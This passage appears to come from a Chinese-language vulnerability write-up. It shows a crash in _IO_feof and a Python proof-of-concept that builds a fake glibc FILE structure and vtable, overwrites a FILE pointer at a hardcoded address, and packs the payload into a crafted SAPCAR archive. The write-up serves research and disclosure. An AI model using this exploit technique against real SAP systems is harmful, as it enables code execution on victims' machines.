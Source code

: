 ```
Stopped reason: SIGSEGV
_IO_feof (fp=0x4242424243434343) at feof.c:35
```

**4.2 控制执行流**

接下来要存储我们伪造的FILE结构，我们的运行环境禁用了ASLR，因此我们只能使用硬编码的缓冲区地址。

```
#!/usr/bin/env python
import struct
from scapy.packet import Raw
from pysap.SAPCAR import *
FILE_STRUCT_SIZE = 0xd8
BUF_ADDRESS = 0xa1c798
def build_IO_FILE_struct():
    file_struct = ""
    file_struct += struct.pack("&lt;Q", 0x80018001) # _flags
    file_struct += struct.pack("&lt;Q", 0x41414141) # _IO_read_ptr
    file_struct += struct.pack("&lt;Q", 0x42424242) # _IO_read_end
    file_struct += struct.pack("&lt;Q", 0x43434343) # _IO_read_base
    file_struct += struct.pack("&lt;Q", 0x44444444) # _IO_write_base
    file_struct += struct.pack("&lt;Q", 0x45454545) # _IO_write_ptr
    file_struct += struct.pack("&lt;Q", 0x46464646) # _IO_write_end
    file_struct += struct.pack("&lt;Q", 0x47474747) # _IO_buf_base
    file_struct += struct.pack("&lt;Q", 0x48484848) # _IO_buf_end
    file_struct += struct.pack("&lt;Q", 0x49494949) # _IO_save_base
    file_struct += struct.pack("&lt;Q", 0x50505050) # _IO_backup_base
    file_struct += struct.pack("&lt;Q", 0x51515151) # _IO_save_end
    file_struct += struct.pack("&lt;Q", 0x52525252) # _markers
    file_struct += struct.pack("&lt;Q", 0x53535353) # _chain
    file_struct += struct.pack("&lt;L", 0x54545454) # _fileno
    file_struct += struct.pack("&lt;L", 0x55555555) # _flags2
    file_struct += struct.pack("&lt;Q", 0x56565656) # _old_offset
    file_struct += struct.pack("&lt;H", 0x5757)     # _cur_column
    file_struct += struct.pack("&lt;H", 0x58)       # _vtable_offset
    file_struct += struct.pack("&lt;L", 0x59595959) # _shortbuf
    file_struct += struct.pack("&lt;Q", 0x60606060) # _lock
    file_struct += struct.pack("&lt;Q", 0x61616161) # _offset
    file_struct += struct.pack("&lt;Q", 0x62626262) # _codecvt
    file_struct += struct.pack("&lt;Q", 0x63636363) # _wide_data
    file_struct += struct.pack("&lt;Q", 0x64646464) # _freeres_list
    file_struct += struct.pack("&lt;Q", 0x65656565) # _freeres_buf
    file_struct += struct.pack("&lt;Q", 0x66666666) # __pad5
    file_struct += struct.pack("&lt;L", 0x67676767) # _mode
    file_struct += "A" * 20                      # _unused2
    return file_struct
def build_IO_jump_t_vtable():
    vtable = ""
    vtable += struct.pack("&lt;Q", BUF_ADDRESS + 2 * FILE_STRUCT_SIZE + 8)
    vtable += struct.pack("&lt;Q", 0x41424344) * 21
    return vtable
def overwrite_FILE_pointer(address):
    fake_structure = build_IO_FILE_struct() * 2
    vtable = build_IO_jump_t_vtable()
    fill_buf = "A" * (0x1100 - len(fake_structure) - len(vtable))
    gap_to_fp = "B" * 0x38
    fp = struct.pack("&lt;Q", address)
    return fake_structure + vtable + fill_buf + gap_to_fp + fp
def write_exp(data):
    with open("sapevents.dll", "w") as fd:
        fd.write("Some string to compress")
    f = SAPCARArchive("poc.car", mode="wb", version=SAPCAR_VERSION_200)
    f.add_file("sapevents.dll")
```
